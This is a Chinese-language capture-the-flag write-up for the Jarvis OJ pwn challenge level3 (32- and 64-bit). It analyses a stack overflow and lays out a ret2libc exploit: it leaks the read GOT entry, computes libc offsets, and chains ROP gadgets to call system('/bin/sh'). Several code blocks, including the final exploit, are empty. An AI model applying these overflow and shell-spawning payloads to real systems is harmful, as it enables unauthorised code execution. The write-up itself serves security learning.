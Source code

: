 # Jarvisoj--pwn--level3&level3_x64

32位和64位思路一样，我们用64位来玩

checksec一下

打开ida查看一波

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

进入vulnerable_function

```c++
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  write(1, "Input:\n", 7uLL);
  return read(0, &buf, 0x200uLL);
}
```

此处存在栈溢出。

## 利用思路

利用write函数把got表中read函数的地址暴露出来，配合libc文件求偏移值，然后把system和‘/bin/sh’的真实地址求出，利用read函数把system("/bin/sh") 写进栈的返回地址。

### 第一步 求read函数的地址

```
0000000000000080 buf             db ?
-000000000000007F                 db ? ; undefined
-000000000000007E                 db ? ; undefined
.....................................
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

可见我们要构造的payload = ’a' * (0x80 + 8) + rdi + p64(1) + rsi,r15 + read_got + p64(8) + write_plt + vulnerable_function

(32位  则不需要rdi rsi

​	payload = ’a' * (0x88 + 4) + write_plt + vulnerable_function + p32(1) + p32(read_got) + p32(4)

)

利用ROPgadget 找到 rdi 和 rsi r15的地址

```
rdi
```



### 第二步 利用libc偏移求出system 和 '/bin/sh' 的地址

libc相关函数和字符串地址

```
libc
```

求出read的地址后，与libc文件里的read地址相减得出 偏移值

offset = read_adr - read_libc

system_adr = system_libc + offset

bin_adr = bin_sh_libc + offset

### 第三步 构造payload并写进栈

payload = ’a' * (0x80 + 8) + rdi + bin_adr  + system_adr + vulnerable_function

(32位

  payload = ’a' * (0x88 + 4) + system_adr + vulnerable_function + bin_adr

)

exp:

```

```

